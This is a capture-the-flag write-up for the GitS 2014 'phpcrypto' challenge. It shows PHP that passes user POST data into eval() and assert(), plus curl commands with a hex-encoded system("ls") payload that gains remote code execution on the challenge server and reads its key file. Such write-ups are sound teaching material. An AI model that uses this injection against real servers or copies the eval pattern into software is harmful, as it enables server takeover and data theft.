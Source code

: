 # Ghost in the Shellcode 2014: phpcrypto

**Category:** Recon
**Points:** 100
**Description:**

> GitS Presents [PHPCrypto 0.000001](http://phpcrypto.2014.ghostintheshellcode.com/)

## Write-up

The HTML source code of the linked page contains the following:

```js
function encrypt()
{
  key = $("#key")[0].value;
  plaintexthex = toHex($("#plaintext")[0].value);
  function success(data) {$("#ciphertext")[0].value = $.parseJSON(data).returnValue;}
  $.post('crypto.php', {"function":"customCrypto", "key":key, "plaintexthex":plaintexthex}, success );
}

function decrypt()
{
  key = $("#key")[0].value;
  ciphertext = $("#ciphertext")[0].value;
  function success(data) {$("#plaintext")[0].value = toAscii($.parseJSON(data).returnValue);}
  $.post('crypto.php', {"function":"customCrypto", "key":key, "plaintexthex":ciphertext}, success );
}
```

So, for encoding and decoding, a POST request is made to `/crypto.php` with the name of the function (`customCrypto`), the entered key, and the hexadecimal representation of the input text (for encoding) or the ciphertext (for decoding).

There’s also this comment:

```js
/*
TODO: add support for "help" and "dump" functions
*/
```

When using the `dump` function, the server returns an HTML document containing the syntax-highlighted source code of the PHP script:

```bash
$ curl http://phpcrypto.2014.ghostintheshellcode.com/crypto.php --data 'function=dump' > source.html
```

In some cases the `customCrypto` function ends up in a code path where [`assert()`](http://php.net/assert) is executed:

```php
assert("\$message = \"ERROR! xorKey is: \".strlen(\$xorKey).\" bytes long and the plaintext is: \".strlen($plaintext).\" bytes long.\";");
```

`assert` is like `eval`, except it terminates script execution if the result is `false`. To get there, we need to pass the string `'true'` as the value for the third argument (`$DEBUG`).

That is possible because of this code:

```php
$params = $_POST;
unset($params['function']);

$param_string='';
foreach($params as $key=>$param)
{
    $param = preg_replace('/[^A-Za-z0-9]/','',$param);
    $param_string.=(($param_string)?',':'')."'".$param."'";
}

if (isset($DEBUG) && $DEBUG == "true") { error_log($_POST['function']."($param_string);"); }
eval("echo ".$_POST['function']."($param_string);");
```

All we need to do is use `DEBUG=true` (or `x=true` — the key doesn’t really matter) as the third key/value pair in the POST data, not counting the `function` parameter. This enables remote code execution:

```bash
$ echo -n '").system("ls");//' | xxd -p # will be used as the value for `plaintexthex`
22292e73797374656d28226c7322293b2f2f

$ curl http://phpcrypto.2014.ghostintheshellcode.com/crypto.php --data 'function=customCrypto&key=a&plaintexthex=22292e73797374656d28226c7322293b2f2f&DEBUG=true'
crypto.php
index.php
jquery-1.8.0.min.js
key
{"errorMsg":"The key is: ; and the plaintext is: key","returnValue":"1912154842484f5e56131957481912001414"}
```

Aha! There’s a file named `key`. Let’s see what it says:

```bash
$ curl http://phpcrypto.2014.ghostintheshellcode.com/key
ThisWasAStupidTestKeyThatBecameARealBoy
```

## Other write-ups

* <http://tasteless.se/2014/01/gits-2014-phpcrypto-recon-100/>
